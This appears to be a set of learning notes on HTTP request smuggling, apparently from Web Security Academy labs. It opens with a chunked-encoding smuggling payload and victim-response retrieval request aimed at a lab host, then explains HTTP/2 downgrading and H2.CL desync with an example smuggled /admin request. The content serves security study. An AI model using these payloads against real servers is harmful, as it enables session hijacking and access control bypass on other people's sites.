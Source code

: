     POST / HTTP/1.1
    Host: 0a20000a03279c7b83d5d7a90040007e.web-security-academy.net
    Cookie: session=KRkmTKTlwr3CeUbMMywNekbXifX0dB1q
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 40
    Transfer-Encoding: chunked

    0

    GET /my-account HTTP/1.1
    X-Ignore:

Then issue this request to view the victim's stored response:

    GET /resources/js/tracking.js HTTP/2
    Host: 0a20000a03279c7b83d5d7a90040007e.web-security-academy.net
    Connection: close

# HTTP/2 request smuggling
HTTP/2 messages are sent over the wire as a series of separate "frames". Each frame is preceded by an explicit length field, which tells the server exactly how many bytes to read in. Therefore, the length of the request is the sum of its frame lengths.

In theory, this mechanism means there is no opportunity for an attacker to introduce the ambiguity required for request smuggling, as long as the website uses HTTP/2 end to end.

## HTTP/2 downgrading
HTTP/2 downgrading is the process of rewriting HTTP/2 requests using HTTP/1 syntax to generate an equivalent HTTP/1 request. Web servers and reverse proxies often do this in order to offer HTTP/2 support to clients while communicating with back-end servers that only speak HTTP/1.

## H2.CL vulnerabilities
It may be possible to smuggle requests by injecting a misleading content-length header. Although the front-end will use the implicit HTTP/2 length to determine where the request ends, the HTTP/1 back-end has to refer to the Content-Length header derived from your injected one, resulting in a desync.

**Front-end (HTTP/2)**

    :method	POST
    :path	/example
    :authority	vulnerable-website.com
    content-type	application/x-www-form-urlencoded
    content-length	0

    GET /admin HTTP/1.1
    Host: vulnerable-website.com
    Content-Length: 10

    x=1

**Back-end (HTTP/1)**

    POST /example HTTP/1.1
    Host: vulnerable-website.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 0
